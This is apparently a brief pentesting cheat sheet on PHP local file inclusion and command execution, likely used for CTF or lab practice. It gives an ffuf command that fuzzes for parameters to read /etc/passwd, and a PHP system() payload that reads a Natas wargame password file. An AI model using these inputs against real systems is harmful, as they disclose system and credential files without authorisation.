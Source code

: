 # PHP

## Check files for LFI and command execution
https://book.hacktricks.xyz/pentesting-web/file-inclusion?q=%2Fetc%2Fpasswd

- Fuzz file for vulnerable  parameters

      ffuf -u <url>?FUZZ=<target_file/command> -w /usr/share/wordlists/dirb/common.txt -fs 0
	
  Ex:
  
      ffuf -u http://192.168.172.212/secret/evil.php?FUZZ=/etc/passwd -w /usr/share/wordlists/dirb/common.txt -fs 0

## system call example

	echo system("cat /etc/natas_webpass/natas13");
